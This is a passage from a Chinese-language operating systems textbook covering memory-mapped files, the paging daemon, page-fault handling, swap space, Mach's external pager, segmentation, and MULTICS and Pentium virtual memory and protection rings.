共享库实际上是一种更为通用的机制——内存映射文件（memory-mapped file）的一个特例。这种机制的思想是：进程可以通过发起一个系统调用，将一个文件映射到其虚拟地址空间的一部分。在多数实现中，在映射共享的页面时不会实际读入页面的内容，而是在访问页面时才会被每次一页地读入，磁盘文件则被当作后备存储。当进程退出或显式地解除文件映射时，所有被改动的页面会被写回到文件中。
内存映射文件提供了一种I/O的可选模型。可以把一个文件当作一个内存中的大字符数组来访问，而不用通过读写操作来访问这个文件。在一些情况下，程序员发现这个模型更加便利。
如果两个或两个以上的进程同时映射了同一个文件，它们就可以通过共享内存来通信。一个进程在共享内存上完成了写操作，此刻当另一个进程在映射到这个文件的虚拟地址空间上执行读操作时，它就可以立刻看到上一个进程写操作的结果。因此，这个机制提供了一个进程之间的高带宽通道，而且这种应用很普遍（甚至扩展到用来映射无名的临时文件）。很显然，如果内存映射文件可用，共享库就可以使用这个机制。
如果发生缺页中断时系统中有大量的空闲页框，此时分页系统工作在最佳状态。如果每个页框都被占用，而且被修改过的话，再换入一个新页面时，旧页面应首先被写回磁盘。为保证有足够的空闲页框，很多分页系统有一个称为分页守护进程（paging daemon）的后台进程，它在大多数时候睡眠，但定期被唤醒以检查内存的状态。如果空闲页框过少，分页守护进程通过预定的页面置换算法选择页面换出内存。如果这些页面装入内存后被修改过，则将它们写回磁盘。
在任何情况下，页面中原先的内容都被记录下来。当需要使用一个已被淘汰的页面时，如果该页框还没有被覆盖，将其从空闲页框缓冲池中移出即可恢复该页面。保存一定数目的页框供给比使用所有内存并在需要时搜索一个页框有更好的性能。分页守护进程至少保证了所有的空闲页框是“干净”的，所以空闲页框在被分配时不必再急着写回磁盘。
一种实现清除策略的方法就是使用一个双指针时钟。前指针由分页守护进程控制。当它指向一个脏页面时，就把该页面写回磁盘，前指针向前移动。当它指向一个干净页面时，仅仅指针向前移动。后指针用于页面置换，就像在标准时钟算法中一样。现在，由于分页守护进程的工作，后指针命中干净页面的概率会增加。
到现在为止，所有的讨论都假定虚拟内存对进程和程序员来说是透明的，也就是说，它们都可以在一台只有较少物理内存的计算机上看到很大的虚拟地址空间。对于不少系统而言这样做是对的，但对于一些高级系统而言，程序员可以对内存映射进行控制，并可以通过非常规的方法来增强程序的行为。这一节我们将简短地讨论一下这些问题。
允许程序员对内存映射进行控制的一个原因就是为了允许两个或者多个进程共享同一部分内存。如果程序员可以对内存区域进行命名，那么就有可能实现共享内存。通过让一个进程把一片内存区域的名称通知另一个进程，而使得第二个进程可以把这片区域映射到它的虚拟地址空间中去。通过两个进程（或者更多）共享同一部分页面，高带宽的共享就成为可能——一个进程往共享内存中写内容而另一个从中读出内容。
页面共享也可以用来实现高性能的消息传递系统。一般地，传递消息的时候，数据被从一个地址空间复制到另一个地址空间，开销很大。如果进程可以控制它们的页面映射，就可以这样来发送一条消息：发送进程清除那些包含消息的页面的映射，而接收进程把它们映射进来。这里只需要复制页面的名字，而不需要复制所有数据。
另外一种高级存储管理技术是分布式共享内存（Feeley等人，1995；Li，1986；Li和Hudak，1989；Zekauskas等人，1994）。该方法允许网络上的多个进程共享一个页面集合，这些页面可能（而不是必要的）作为单个的线性共享地址空间。当一个进程访问当前还没有映射进来的页面时，就会产生缺页中断。在内核空间或者用户空间中的缺页中断处理程序就会对拥有该页面的机器进行定位，并向它发送一条消息，请求它清除该页面的映射，并通过网络发送出来。当页面到达时，就把它映射进来，并重新开始运行引起缺页中断的指令。在第8章中我们将详细讨论分布式共享内存。
实现虚拟内存系统要在主要的理论算法（如第二次机会算法与老化算法，局部页面分配与全局页面分配，请求调页与预先调页）之间进行选择。但同时也要注意一系列实际的实现问题。在这一节中将涉及一些通常情况下会遇到的问题以及一些解决方案。
操作系统要在下面的四段时间里做与分页相关的工作：进程创建时，进程执行时，缺页中断时和进程终止时。下面将分别对这四个时期进行简短的分析。
当在分页系统中创建一个新进程时，操作系统要确定程序和数据在初始时有多大，并为它们创建一个页表。操作系统还要在内存中为页表分配空间并对其进行初始化。当进程被换出时，页表不需要驻留在内存中，但当进程运行时，它必须在内存中。另外，操作系统要在磁盘交换区中分配空间，以便在一个进程换出时在磁盘上有放置此进程的空间。操作系统还要用程序正文和数据对交换区进行初始化，这样当新进程发生缺页中断时，可以调入需要的页面。某些系统直接从磁盘上的可执行文件对程序正文进行分页，以节省磁盘空间和初始化时间。最后，操作系统必须把有关页表和磁盘交换区的信息存储在进程表中。
当调度一个进程执行时，必须为新进程重置MMU，刷新TLB，以清除以前的进程遗留的痕迹。新进程的页表必须成为当前页表，通常可以通过复制该页表或者把一个指向它的指针放进某个硬件寄存器来完成。有时，在进程初始化时可以把进程的部分或者全部页面装入内存中以减少缺页中断的发生，例如，PC（程序计数器）所指的页面肯定是需要的。
当缺页中断发生时，操作系统必须通过读硬件寄存器来确定是哪个虚拟地址造成了缺页中断。通过该信息，它要计算需要哪个页面，并在磁盘上对该页面进行定位。它必须找到合适的页框来存放新页面，必要时还要置换老的页面，然后把所需的页面读入页框。最后，还要备份程序计数器，使程序计数器指向引起缺页中断的指令，并重新执行该指令。
当进程退出的时候，操作系统必须释放进程的页表、页面和页面在硬盘上所占用的空间。如果某些页面是与其他进程共享的，当最后一个使用它们的进程终止的时候，才可以释放内存和磁盘上的页面。
我们终于可以讨论缺页中断发生的细节了。缺页中断发生时的事件顺序如下：
1)硬件陷入内核，在堆栈中保存程序计数器。大多数机器将当前指令的各种状态信息保存在特殊的CPU寄存器中。
2)启动一个汇编代码例程保存通用寄存器和其他易失的信息，以免被操作系统破坏。这个例程将操作系统作为一个函数来调用。
3)当操作系统发现一个缺页中断时，尝试发现需要哪个虚拟页面。通常一个硬件寄存器包含了这一信息，如果没有的话，操作系统必须检索程序计数器，取出这条指令，用软件分析这条指令，看看它在缺页中断时正在做什么。
4)一旦知道了发生缺页中断的虚拟地址，操作系统检查这个地址是否有效，并检查存取与保护是否一致。如果不一致，向进程发出一个信号或杀掉该进程。如果地址有效且没有保护错误发生，系统则检查是否有空闲页框。如果没有空闲页框，执行页面置换算法寻找一个页面来淘汰。
5)如果选择的页框“脏”了，安排该页写回磁盘，并发生一次上下文切换，挂起产生缺页中断的进程，让其他进程运行直至磁盘传输结束。无论如何，该页框被标记为忙，以免因为其他原因而被其他进程占用。
6)一旦页框“干净”后（无论是立刻还是在写回磁盘后），操作系统查找所需页面在磁盘上的地址，通过磁盘操作将其装入。该页面被装入后，产生缺页中断的进程仍然被挂起，并且如果有其他可运行的用户进程，则选择另一个用户进程运行。
7)当磁盘中断发生时，表明该页已经被装入，页表已经更新可以反映它的位置，页框也被标记为正常状态。
8)恢复发生缺页中断指令以前的状态，程序计数器重新指向这条指令。
9)调度引发缺页中断的进程，操作系统返回调用它的汇编语言例程。
10)该例程恢复寄存器和其他状态信息，返回到用户空间继续执行，就好像缺页中断没有发生过一样。
当程序访问不在内存中的页面时，引起缺页中断的指令会半途停止并引发操作系统的陷阱。在操作系统取出所需的页面后，它需要重新启动引起陷阱的指令。但这并不是一件容易实现的事。
我们在最坏情形下考察这个问题的实质，考虑一个有双地址指令的CPU，比如Motorola 680x0，这是一种在嵌入式系统中广泛使用的CPU。例如，指令
MOVE.L#6(A1),2(A0)
为6字节（见图3-28）。为了重启该指令，操作系统要知道该指令第一个字节的位置。在陷阱发生时，程序计数器的值依赖于引起缺页中断的那个操作数以及CPU中微指令的实现方式。
在图3-28中，从地址1000处开始的指令进行了3次内存访问：指令字本身和操作数的2个偏移量。从可以产生缺页中断的这3次内存访问来看，程序计数器可能在1000、1002和1004时发生缺页中断，对操作系统来说要准确地判断指令是从哪儿开始的通常是不可能的。如果发生缺页中断时程序计数器是1002，操作系统无法弄清在1002位置的字是与1000的指令有关的内存地址（比如，一个操作数的位置），还是一个指令的操作码。
这种情况已经很糟糕了，但可能还有更糟的情况。一些680x0体系结构的寻址方式采用自动增量，这也意味着执行这条指令的副作用是会增量一个或多个寄存器。使用自动增量模式也可能引起错误。这依赖于微指令的具体实现，这种增量可能会在内存访问之前完成，此时操作系统必须在重启这条指令前将软件中的寄存器减量。自动增量也可能在内存访问之后完成，此时，它不会在陷入时完成而且不必由操作系统恢复。自动减量也会出现相同的问题。自动增量和自动减量是否在相应访存之前完成随着指令和CPU模式的不同而不同。
幸运的是，在某些计算机上，CPU的设计者们提供了一种解决方法，就是通过使用一个隐藏的内部寄存器。在每条指令执行之前，把程序计数器的内容复制到该寄存器。这些机器可能会有第二个寄存器，用来提供哪些寄存器已经自动增加或者自动减少以及增减的数量等信息。通过这些信息，操作系统可以消除引起缺页中断的指令所造成的所有影响，并使指令可以重新开始执行。如果该信息不可用，那么操作系统就要找出所发生的问题从而设法来修复它。看起来硬件设计者是不能解决这个问题了，于是他们就推给操作系统的设计者来解决这个问题。
尽管本章对I/O的讨论不多，但计算机有虚拟内存并不意味着I/O不起作用了。虚拟内存和I/O通过微妙的方式相互作用着。设想一个进程刚刚通过系统调用从文件或其他设备中读取数据到其地址空间中的缓冲区。在等待I/O完成时，该进程被挂起，另一个进程被允许运行，而这个进程产生一个缺页中断。
如果分页算法是全局算法，包含I/O缓冲区的页面会有很小的机会（但不是没有）被选中换出内存。如果一个I/O设备正处在对该页面进行DMA传输的过程之中，将这个页面移出将会导致部分数据写入它们所属的缓冲区中，而部分数据被写入到最新装入的页面中。一种解决方法是锁住正在做I/O操作的内存中的页面以保证它不会被移出内存。锁住一个页面通常称为在内存中钉住（pinning）页面。另一种方法是在内核缓冲区中完成所有的I/O操作，然后再将数据复制到用户页面。
在前面讨论过的页面置换算法中，我们已经知道了如何选择换出内存的页面。但是却没有讨论当页面被换出时会存放在磁盘上的哪个位置。现在我们讨论一下磁盘管理相关的问题。
在磁盘上分配页面空间的最简单的算法是在磁盘上设置特殊的交换分区，甚至从文件系统划分一块独立的磁盘（以平衡I/O负载）。大多数UNIX是这样处理的。在这个分区里没有普通的文件系统，这样就消除了将文件偏移转换成块地址的开销。取而代之的是，始终使用相应分区的起始块号。
当系统启动时，该交换分区为空，并在内存中以单独的项给出它的起始和大小。在最简单的情况下，当第一个进程启动时，留出与这个进程一样大的交换区块，剩余的为总空间减去这个交换分区。当新进程启动后，它们同样被分配与其核心映像同等大小的交换分区。进程结束后，会释放其磁盘上的交换区。交换分区以空闲块列表的形式组织。更好的算法在第10章里讨论。
与每个进程对应的是其交换区的磁盘地址，即进程映像所保存的地方。这一信息是记录在进程表里的。写回一个页面时，计算写回地址的过程很简单：将虚拟地址空间中页面的偏移量加到交换区的开始地址。但在进程启动前必须初始化交换区，一种方法是将整个进程映像复制到交换区，以便随时可将所需内容装入，另一种方法是将整个进程装入内存，并在需要时换出。
但这种简单模式有一个问题：进程在启动后可能增大，尽管程序正文通常是固定的，但数据有时会增长，堆栈也总是在随时增长。这样，最好为正文、数据和堆栈分别保留交换区，并且允许这些交换区在磁盘上多于一个块。
另一个极端的情况是事先什么也不分配，在页面换出时为其分配磁盘空间，并在换入时回收磁盘空间，这样内存中的进程不必固定于任何交换空间。其缺点是内存中每个页面都要记录相应的磁盘地址。换言之，每个进程都必须有一张表，记录每一个页面在磁盘上的位置。这两个方案如图3-29所示。
在图3-29a中，有一个带有8个页面的页表。页面0、3、4和6在内存中。页面1、2、5和7在磁盘上。磁盘上的交换区与进程虚拟地址空间（8页面）一样大，每个页面有固定的位置，当它从内存中被淘汰时，便写到相应位置。该地址的计算需要知道进程的分页区域的起始位置，因为页面是按照它们的虚拟页号的顺序连续存储的。内存中的页面通常在磁盘上有镜像副本，但是如果页面装入后被修改过，那么这个副本就可能是过期的了。内存中的深色页面表示不在内存，磁盘上的深色页面（原则上）被内存中的副本所替代，但如果有一个内存页面要被换回磁盘并且该页面在装入内存后没有被修改过，那么将使用磁盘中（深色）的副本。
在图3-29b中，页面在磁盘上没有固定地址。当页面换出时，要及时选择一个空磁盘页面并据此来更新磁盘映射（每个虚拟页面都有一个磁盘地址空间）。内存中的页面在磁盘上没有副本。它们在磁盘映射表中的表项包含一个非法的磁盘地址或者一个表示它们未被使用的标记位。
不能保证总能够实现固定的交换分区。例如，没有磁盘分区可用时。在这种情况下，可以利用正常文件系统中的一个或多个较大的、事前定位的文件。Windows就使用这个方法。然而，可以利用优化方法减少所需的磁盘空间量。既然每个进程的程序正文来自文件系统中某个（可执行的）文件，这个可执行文件就可用作交换区。而更好的方法是，由于程序正文通常是只读的，当内存资源紧张、程序页不得不移出内存时，尽管丢弃它们，在需要的时候再从可执行文件读入即可。共享库也可以用这个方式工作。
控制系统复杂度的一种重要方法就是把策略从机制中分离出来。通过使大多数存储管理器作为用户级进程运行，就可以把该原则应用到存储管理中。在Mach（Young等人，1987）中首先应用了这种分离。下面的讨论基本上是基于Mach的。
一个如何分离策略和机制的简单例子可以参见图3-30。其中存储管理系统被分为三个部分：
1)一个底层MMU处理程序。
2)一个作为内核一部分的缺页中断处理程序。
3)一个运行在用户空间中的外部页面调度程序。
所有关于MMU工作的细节都被封装在MMU处理程序中，该程序的代码是与机器相关的，而且操作系统每应用到一个新平台就要被重写一次。缺页中断处理程序是与机器无关的代码，包含大多数分页机制。策略主要由作为用户进程运行的外部页面调度程序所决定。
当一个进程启动时，需要通知外部页面调度程序以便建立进程页面映射，如果需要的话还要在磁盘上分配后备存储。当进程正在运行时，它可能要把新对象映射到它的地址空间，所以还要再一次通知外部页面调度程序。
一旦进程开始运行，就有可能出现缺页中断。缺页中断处理程序找出需要哪个虚拟页面，并发送一条消息给外部页面调度程序告诉它发生了什么问题。外部页面调度程序从磁盘中读入所需的页面，把它复制到自己的地址空间的某一位置。然后告诉缺页中断处理程序该页面的位置。缺页中断处理程序从外部页面调度程序的地址空间中清除该页面的映射，然后请求MMU处理程序把它放到用户地址空间的正确位置，随后就可以重新启动用户进程了。
这个实现方案没有给出放置页面置换算法的位置。把它放在外部页面调度程序中比较简单，但会有一些问题。这里有一条原则就是外部页面调度程序无权访问所有页面的R位和M位。这些二进制位在许多页面置换算法起重要作用。这样就需要有某种机制把该信息传递给外部页面调度程序，或者把页面置换算法放到内核中。在后一种情况下，缺页中断处理程序会告诉外部页面调度程序它所选择的要淘汰的页面并提供数据，方法是把数据映射到外部页面调度程序的地址空间中或者把它包含到一条消息中。两种方法中，外部页面调度程序都把数据写到磁盘上。
这种实现的主要优势是有更多的模块化代码和更好的适应性。主要缺点是由于多次交叉“用户-内核”边界引起的额外开销，以及系统模块间消息传递所造成的额外开销。现在看来，这一主题有很多争议，但是随着计算机越来越快，软件越来越复杂，从长远来看，对于大多数实现，为了获得更高的可靠性而牺牲一些性能也是可以接受的。
到目前为止我们讨论的虚拟内存都是一维的，虚拟地址从0到最大地址，一个地址接着另一个地址。对许多问题来说，有两个或多个独立的地址空间可能比只有一个要好得多。比如，一个编译器在编译过程中会建立许多表，其中可能包括：
1)被保存起来供打印清单用的源程序正文（用于批处理系统）。
2)符号表，包含变量的名字和属性。
3)包含用到的所有整型量和浮点常量的表。
4)语法分析树，包含程序语法分析的结果。
5)编译器内部过程调用使用的堆栈。
前4个表随着编译的进行不断地增长，最后一个表在编译过程中以一种不可预计的方式增长和缩小。在一维存储器中，这5个表只能被分配到虚拟地址空间中连续的块中，如图3-31所示。
考虑一下如果一个程序有非常多的变量，但是其他部分都是正常数量时会发生什么事情。地址空间中分给符号表的块可能会被装满，但这时其他表中还有大量的空间。编译器当然可以简单地打印出一条信息说由于变量太多编译不能继续进行，但在其他表中还有空间时这样做似乎并不恰当。
另外一种可能的方法就是扮演侠盗罗宾汉，从拥有过量空间的表中拿出一些空间给拥有极少量空间的表。这种处理是可以做到的，但是它和管理自己的覆盖一样，在最好的情况下是一件令人讨厌的事，而最坏的情况则是一大堆单调且没有任何回报的工作。
我们真正需要的是一个能够把程序员从管理表的扩张和收缩的工作中解放出来的办法，就像虚拟内存使程序员不用再为怎样把程序划分成覆盖块担心一样。
一个直观并且通用的方法是在机器上提供多个互相独立的称为段（segment）的地址空间。每个段由一个从0到最大的线性地址序列构成。各个段的长度可以是0到某个允许的最大值之间的任何一个值。不同的段的长度可以不同，并且通常情况下也都不相同。段的长度在运行期间可以动态改变，比如，堆栈段的长度在数据被压入时会增长，在数据被弹出时又会减小。
因为每个段都构成了一个独立的地址空间，所以它们可以独立地增长或减小而不会影响到其他的段。如果一个在某个段中的堆栈需要更多的空间，它就可以立刻得到所需要的空间，因为它的地址空间中没有任何其他东西阻挡它增长。段当然有可能会被装满，但通常情况下段都很大，因此这种情况发生的可能性很小。要在这种分段或二维的存储器中指示一个地址，程序必须提供两部分地址，一个段号和一个段内地址。图3-32给出了前面讨论过的编译表的分段内存，其中共有5个独立的段。
需要强调的是，段是一个逻辑实体，程序员知道这一点并把它作为一个逻辑实体来使用。一个段可能包括一个过程、一个数组、一个堆栈、一组数值变量，但一般它不会同时包含多种不同类型的内容。
除了能简化对长度经常变动的数据结构的管理之外，分段存储管理还有其他一些优点。如果每个过程都位于一个独立的段中并且起始地址是0，那么把单独编译好的过程链接起来的操作就可以得到很大的简化。当组成一个程序的所有过程都被编译和链接好以后，一个对段n中过程的调用将使用由两个部分组成的地址（n，0）来寻址到字0（入口点）。
如果随后位于段n的过程被修改并被重新编译，即使新版本的程序比老的要大，也不需要对其他的过程进行修改（因为没有修改它们的起始地址）。在一维地址中，过程被一个挨一个紧紧地放在一起，中间没有空隙，因此修改一个过程的大小会影响其他无关的过程的起始地址，而这又需要修改调用了这些被移动过的过程的所有过程，以使它们的访问指向这些过程的新地址。在一个有数百个过程的程序中，这个操作的开销可能是相当大的。
分段也有助于在几个进程之间共享过程和数据。这方面一个常见的例子就是共享库（shared library）。运行高级窗口系统的现代工作站经常要把非常大的图形库编译进几乎所有的程序中。在分段系统中，可以把图形库放到一个单独的段中由各个进程共享，从而不再需要在每个进程的地址空间中都保存一份。虽然在纯的分页系统中也可以有共享库，但是它要复杂得多，并且这些系统实际上是通过模拟分段来实现的。
因为每个段是一个为程序员所知道的逻辑实体，比如一个过程、一个数组或一个堆栈，故不同的段可以有不同种类的保护。一个过程段可以被指明为只允许执行，从而禁止对它的读出和写入；一个浮点数组可以被指明为允许读写但不允许执行，任何试图向这个段内的跳转都将被截获。这样的保护有助于找到编程错误。
读者应该试着理解为什么保护在分段存储中有意义，而在一维的分页存储中则没有。在分段存储中用户知道每个段中包含了什么。例如，一般来说，一个段中不会既包含一个过程又包含一个堆栈，而是只会包含其中的一个。正是因为每个段只包含了一种类型的对象，所以这个段就可以设置针对这种特定类型的合适的保护。图3-33对分段和分页进行了比较。
页面的内容在某种程度上是随机的，程序员甚至察觉不到分页的事实。尽管在页表的每个表项中放入几位就可以说明其对应页面的访问权限，然而为了利用这一点，程序员必须跟踪他的地址空间中页面的界限。当初正是为了避免这一类管理工作，人们才发明了分页系统。在分段系统中，由于用户会认为所有的段都一直在内存中，也就是说他可以当作所有这些段都在内存中那样去访问，他可以分别保护各个段，所以不需要关心覆盖它们的管理工作。
分段和分页的实现本质上是不同的：页面是定长的而段不是。图3-34a所示的物理内存在初始时包含了5个段。现在让我们考虑当段1被淘汰后，比它小的段7放进它的位置时会发生什么样的情况。这时的内存配置如图3-34b所示，在段7与段2之间是一个未用区域，即一个空闲区。随后段4被段5代替，如图3-34c所示；段3被段6代替，如图3-34d所示。在系统运行一段时间后内存被划分为许多块，一些块包含着段，一些则成了空闲区，这种现象称为棋盘形碎片或外部碎片（external fragmentation）。空闲区的存在使内存被浪费了，而这可以通过内存紧缩来解决。如图3-34e所示。
如果一个段比较大，把它整个保存在内存中可能很不方便甚至是不可能的，因此产生了对它进行分页的想法。这样，只有那些真正需要的页面才会被调入内存。有几个著名的系统实现了对段进行分页的支持，在本节我们将介绍第一个实现了这种支持的系统——MULTICS。在下一节我们将介绍一个更新的例子——Intel Pentium。
MULTICS运行在Honeywell 6000计算机和它的一些后继机型上。它为每个程序提供了最多218 个段（超过250 000个），每个段的虚拟地址空间最长为65 536个（36位）字长。为了实现它，MULTICS的设计者决定把每个段都看作是一个虚拟内存并对它进行分页，以结合分页的优点（统一的页面大小和在只使用段的一部分时不用把它全部调入内存）和分段的优点（易于编程、模块化、保护和共享）。
每个MULTICS程序都有一个段表，每个段对应一个描述符。因为段表可能会有大于25万个的表项，段表本身也是一个段并被分页。一个段描述符包含了一个段是否在内存中的标志，只要一个段的任何一部分在内存中这个段就被认为是在内存中，并且它的页表也会在内存中。如果一个段在内存中，它的描述符将包含一个18位的指向它的页表的指针（见图3-35a）。因为物理地址是24位并且页面是按照64字节的边界对齐的（这隐含着页面地址的低6位是000000），所以在描述符中只需要18位来存储页表地址。段描述符中还包含了段大小、保护位以及其他的一些条目。图3-35b一个MULTICS段描述符的示例。段在辅助存储器中的地址不在段描述符中，而是在缺段处理程序使用的另一个表中。
每个段都是一个普通的虚拟地址空间，用与本章前面讨论过的非分段式分页存储相同的方式进行分页。一般的页面大小是1024字节（尽管有一些MULTICS自己使用的段不分页或以64字节为单元进行分页以节省内存）。
MULTICS中一个地址由两部分构成：段和段内地址。段内地址又进一步分为页号和页内的字，如图3-36所示。在进行内存访问时，执行下面的算法。
1)根据段号找到段描述符。
2)检查该段的页表是否在内存中。如果在，则找到它的位置；如果不在，则产生一个段错误。如果访问违反了段的保护要求就发出一个越界错误（陷阱）。
3)检查所请求虚拟页面的页表项，如果该页面不在内存中则产生一个缺页中断，如果在内存就从页表项中取出这个页面在内存中的起始地址。
4)把偏移量加到页面的起始地址上，得到要访问的字在内存中的地址。
5)最后进行读或写操作。
这个过程如图3-37所示。为了简单起见，我们忽略了描述符段自己也要分页的事实。实际的过程是通过一个寄存器（描述符基址寄存器）找到描述符段的页表，这个页表指向描述符段的页面。一旦找到了所需段的描述符，寻址过程就如图3-37所示。
正如读者所想，如果对于每条指令都由操作系统来运行上面所述的算法，那么程序就会运行得很慢。实际上，MULTICS硬件包含了16个字的高速TLB，对给定的关键字它能并行搜索所有的表项，如图3-38所示。当一个地址被送到计算机时，寻址硬件首先检查虚拟地址是不是在TLB中。如果在，就直接从TLB中取得页框号并生成要访问的字的实际地址，而不必到描述符段或页表中去查找。
TLB中保存着16个最近访问的页的地址，工作集小于TLB容量的程序将随着整个工作集的地址被装入TLB中而逐渐达到稳定，开始高效地运行。如果页面不在TLB中，才会访问描述符和页表以找出页框号，并更新TLB使它包含这个页面，最近最少使用的页面被淘汰出TLB。生存时间位跟踪哪个表项是最近最少使用的。之所以使用TLB是为了并行地比较所有表项的段号和页号。
Pentium处理器的虚拟内存在许多方面都与MULTICS类似，其中包括既有分段机制又有分页机制。MULTICS有256K个独立的段，每个段最长可以有64K个36位字。Pentium处理器有16K个独立的段，每个段最多可以容纳10亿个32位字。这里虽然段的数目较少，但是相比之下Pentium较大的段大小特征比更多的段个数要重要得多，因为几乎没有程序需要1000个以上的段，但是有很多程序需要大段。
Pentium处理器中虚拟内存的核心是两张表，即LDT（Local Descriptor Table，局部描述符表）和GDT（Global Descriptor Table，全局描述符表）。每个程序都有自己的LDT，但是同一台计算机上的所有程序共享一个GDT。LDT描述局部于每个程序的段，包括其代码、数据、堆栈等；GDT描述系统段，包括操作系统本身。
为了访问一个段，一个Pentium程序必须把这个段的选择子（selector）装入机器的6个段寄存器的某一个中。在运行过程中，CS寄存器保存代码段的选择子，DS寄存器保存数据段的选择子，其他的段寄存器不太重要。每个选择子是一个16位数，如图3-39所示。
选择子中的一位指出这个段是局部的还是全局的（即它是在LDT中还是在GDT中），其他的13位是LDT或GDT的表项编号。因此，这些表的长度被限制在最多容纳8K个段描述符。还有两位和保护有关，我们将在后面讨论。描述符0是禁止使用的，它可以被安全地装入一个段寄存器中用来表示这个段寄存器目前不可用，如果使用会引起一次陷阱。
在选择子被装入段寄存器时，对应的描述符被从LDT或GDT中取出装入微程序寄存器中，以便快速地访问。一个描述符由8个字节构成，包括段的基地址、大小和其他信息，如图3-40所示。
选择子的格式经过合理设计，使得根据选择子定位描述符十分方便。首先根据第2位选择LDT或GDT；随后选择子被复制进一个内部擦除寄存器中并且它的低3位被清0；最后，LDT或GDT表的地址被加到它上面，得出一个直接指向描述符的指针。例如，选择子72指向GDT的第9个表项，它位于地址GDT+72。
现在让我们跟踪一个描述地址的（选择子，偏移量）二元组被转换为物理地址的过程。微程序知道我们具体要使用哪个段寄存器后，它就能从内部寄存器中找到对应于这个选择子的完整的描述符。如果段不存在（选择子为0）或已被换出，则会发生一次陷阱。
硬件随后根据Limit（段长度）域检查偏移量是否超出了段的结尾，如果是，也发生一次陷阱。从逻辑上来说，在描述符中应该简单地有一个32位的域给出段的大小，但实际上剩余20位可以使用，因此采用了一种不同的方案。如果Gbit（Granularity）域是0，则是精确到字节的段长度，最大1MB；如果是1，Limit域以页面替代字节作为单元给出段的大小。Pentium处理器的页面大小是固定的4KB，因此20位足以描述最大232 字节的段。
假设段在内存中并且偏移量也在范围内，Pentium处理器接着把描述符中32位的基址和偏移量相加形成线性地址（linear address），如图3-41所示。为了和只有24位基址的286兼容，基址被分为3片分布在描述符的各个位置。实际上，基址允许每个段的起始地址位于32位线性地址空间内的任何位置。
如果禁止分页（通过全局控制寄存器中的一位），线性地址就被解释为物理地址并被送往存储器用于读写操作。因此在禁止分页时，我们就得到了一个纯的分段方案。各个段的基址在它的描述符中。另外，段之间允许互相覆盖，这可能是因为验证所有的段都互不重叠太麻烦太费时间的缘故。
另一方面，如果允许分页，线性地址将通过页表映射到物理地址，很像我们前面讲过的例子。这里惟一真正复杂的是在32位虚拟地址和4KB页的情况下，一个段可能包含多达100万个页面，因此使用了一种两级映射，以便在段较小时减小页表大小。
每个运行程序都有一个由1024个32位表项组成的页目录（page directory）。它通过一个全局寄存器来定位。这个目录中的每个目录项都指向一个也包含1024个32位表项的页表，页表项指向页框，这个方案如图3-42所示。
在图3-42a中我们看到线性地址被分为三个域：目录、页面和偏移量。目录域被作为索引在页目录中找到指向正确的页表的指针，随后页面域被用作索引在页表中找到页框的物理地址，最后，偏移量被加到页框的地址上得到需要的字节或字的物理地址。
每个页表项是32位，其中20位是页框号。其余的位包含了由硬件设置供操作系统使用的访问位和“脏”位、保护位和一些其他有用的位。
每个页表有描述1024个4KB页框的表项，因此一个页表可以处理4MB的内存。一个小于4MB的段的页目录中将只有一个表项，这个表项指向一个惟一的页表。通过这种方法，长度短的段的开销只是两个页面，而不是一级页表时的100万个页面。
为了避免重复的内存访问，Pentium处理器和MULTICS一样，也有一个小的TLB把最近使用过的“目录-页面”二元组映射为页框的物理地址。只有在当前组合不在TLB中时，图3-42所示的机制才被真正执行并更新TLB。只要TLB的缺失率很低，则性能就不错。
还有一点值得注意，如果某些应用程序不需要分段，而是需要一个单独的、分页的32位地址空间，这样的模式是可以做到的。这时，所有的段寄存器可以用同一个选择子设置，其描述符中基址设为0，段长度被设置为最大。指令偏移量会是线性地址，只使用了一个地址空间——效果上就是正常的分页。事实上，所有当前的Pentium操作系统都是这样工作的。OS/2是惟一一个使用Intel MMU体系结构所有功能的操作系统。
不管怎么说，我们不得不称赞Pentium处理器的设计者，因为他们面对的是互相冲突的目标，实现纯的分页、纯的分段和段页式管理，同时还要与286兼容，而他们高效地实现了所有的目标，最终的设计非常简洁。
尽管我们已经简单地讨论了Pentium处理器虚拟内存的全部体系机制，关于保护我们还是值得再说几句的，因为它和虚拟内存联系很紧密。和虚拟内存一样，Pentium处理器的保护系统与MULTICS很类似。它支持4个保护级，0级权限最高，3级最低，如图3-43所示。在任何时刻，运行程序都处在由PSW中的两位域所指出的某个保护级上，系统中的每个段也有一个级别。
当程序只使用与它同级的段时，一切都会很正常。对更高级别数据的存取是允许的，但是对更低级别的数据的存取是非法的并会引起陷阱。调用不同级别（更高或更低）的过程是允许的，但是要通过一种被严格控制的方式来进行。为执行越级调用，CALL指令必须包含一个选择子而不单单是一个地址。选择子指向一个称为调用门（call gate）的描述符，由它给出被调用过程的地址。因此，要跳转到任何一个不同级别的代码段的中间都是不可能的，只有正式指定的入口点可以使用。保护级和调用门的概念来自MULTICS，在那里它们被称为保护环（protection ring）。
这个机制的一种典型的应用如图3-43所示。在0级是操作系统内核，处理I/O、存储管理和其他关键的操作。在1级是系统调用处理程序，用户程序可以通过调用这里的过程执行系统调用，但是只有一些特定的和受保护的过程可以被调用。在2级是库过程，它可能是由很多正在运行的程序共享的。用户程序可以调用这些过程，读取它们的数据，但是不能修改它们。最后，运行在3级上的用户程序受到的保护最少。
陷阱和中断使用了一种和调用门类似的机制。它们访问的也是描述符而不是绝对地址，而且这些描述符指向将被执行的特定的过程。图3-40中的Type域用于区别代码段、数据段和各种类型的门。
存储管理，特别是页面置换算法，曾经是一个成果丰硕的研究领域，但这些成果中大部分好像已经销声匿迹了，至少对通用系统来说是这样的。很多实时系统试图使用时钟算法的某些变体，因为它容易实现而且相对高效。但最近有了一个例外，这就是对4.4 BSD中虚拟内存的重新设计（Cranor和Parulkar，1999）。
现在仍有一些关于新式系统的分页研究在进行。例如，手机和PDA已成为小型的个人电脑，其中很多将RAM分页到“磁盘”上，所不同的是手机的磁盘是闪存，和旋转磁性盘相比有不同的特性。据Park等人（2004b）报道（In等人，2007；Joo等人，2006；Part等人，2004a）。Part等人（2004b）近期的一些工作还着眼于针对移动设备的能源敏感型的需求分页技术。
关于分页性能的研究也在进行（Albers等人，2002;Burton和Kelly，2003;Cascaval等人，2005;Panagiotou和Souza，2006;Peserico，2003）。研究的兴趣还包括对多媒体系统（Dasigenis等人，2001;Hand，1999）和实时系统（Pizlo和Vitek，2006）的存储器管理。
本章中我们考察了存储管理。我们看到在最简单的系统中是根本没有任何交换或分页的。一旦一个程序装入内存，它将一直在内存中运行直到完成。一些操作系统在同一时刻只允许一个进程在内存中运行，而另一些操作系统支持多道程序设计。
